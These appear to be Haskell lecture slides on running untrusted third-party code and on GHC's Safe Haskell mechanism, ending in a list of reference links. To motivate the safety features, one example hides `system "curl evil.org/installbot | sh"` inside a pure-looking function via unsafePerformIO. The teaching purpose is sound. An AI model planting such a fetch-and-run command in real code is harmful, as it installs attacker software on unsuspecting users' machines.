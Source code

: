 


# Untrusted code

* Say you want to incorporate untrusted code in a Haskell application
* Example:  Some third-party translation software
    * You built a web server
    * Want to add a "translate to Pig Latin" button to each web page
    * Download some random code with this function

        ~~~~ {.haskell}
        toPigLatin :: L.ByteString -> L.ByteString
        ~~~~

* If you could trust the type (no `IO`), this would be safe to run
    * Worst case, users get garbled text on web page
* However, what if you have?

    ~~~~ {.haskell}
    toPigLatin = unsafePerformIO $ do
      system "curl evil.org/installbot | sh"
      return "Ia owna ouya"
    ~~~~

# [Safe Haskell][SafeHaskell]

* Starting with GHC 7.2, `-XSafe` option enables
  [Safe Haskell][SafeHaskell]
* Safe Haskell disallows import of any unsafe modules
    * E.g., can't import `System.IO.Unsafe`, so can't call `unsafePerformIO`
* Safe imports (enabled by `-XSafeImports`) require an import to be safe

    ~~~~ {.haskell}
    import safe PigLatin (toPigLatin)
    ~~~~

    * The above should guarantee that `toPigLatin` doesn't call unsafe
      functions
* But wait... doesn't `toPigLatin` use ByteString?

    ~~~~ {.haskell}
    head :: {- Lazy -} ByteString -> Word8
    head Empty       = errorEmptyList "head"
    head (Chunk c _) = S.unsafeHead c

    unsafeHead :: {- Strict -} ByteString -> Word8
    unsafeHead (PS x s l) = assert (l > 0) $
        inlinePerformIO $ withForeignPtr x $ \p -> peekByteOff p s
    ~~~~

# Safe vs. Trustworthy


[cabal-install]: http://hackage.haskell.org/package/cabal-install
[RWH]: http://book.realworldhaskell.org/
[Platform]: http://hackage.haskell.org/platform/
[GHC]: http://www.haskell.org/haskellwiki/GHC
[GHCdoc]: http://www.haskell.org/ghc/docs/latest/html/users_guide/index.html
[GHCI]: http://www.haskell.org/ghc/docs/latest/html/users_guide/ghci.html
[Hoogle]: http://www.haskell.org/hoogle/
[DMR]: http://www.haskell.org/onlinereport/haskell2010/haskellch4.html#x10-930004.5.5
[DMRWiki]: http://www.haskell.org/haskellwiki/Monomorphism_restriction
[Awkward]: http://research.microsoft.com/en-us/um/people/simonpj/papers/marktoberdorf/mark.pdf
[default]: http://www.haskell.org/onlinereport/haskell2010/haskellch4.html#x10-790004.3.4
[SafeHaskell]: http://www.haskell.org/ghc/docs/latest/html/users_guide/safe-haskell.html
[`Network`]: http://hackage.haskell.org/packages/archive/network/latest/doc/html/Network.html
[imprecise exceptions]: http://research.microsoft.com/en-us/um/people/simonpj/papers/imprecise-exn.htm
[`Control.Exception`]: http://hackage.haskell.org/packages/archive/base/latest/doc/html/Control-Exception.html
[`Control.Concurrent`]: http://hackage.haskell.org/packages/archive/base/latest/doc/html/Control-Concurrent.html
[`Control.Concurrent.Chan`]: http://hackage.haskell.org/packages/archive/base/latest/doc/html/Control-Concurrent-Chan.html
[`Network.Socket`]: http://hackage.haskell.org/packages/archive/network/latest/doc/html/Network-Socket.html
[`System.Timeout`]: http://hackage.haskell.org/packages/archive/base/latest/doc/html/System-Timeout.html
[`MVar`]: http://hackage.haskell.org/packages/archive/base/latest/doc/html/Control-Concurrent-MVar.html
[`bracket`]: http://hackage.haskell.org/packages/archive/base/latest/doc/html/Control-Exception.html#v:bracket
[RFC3493]: http://tools.ietf.org/html/rfc3493
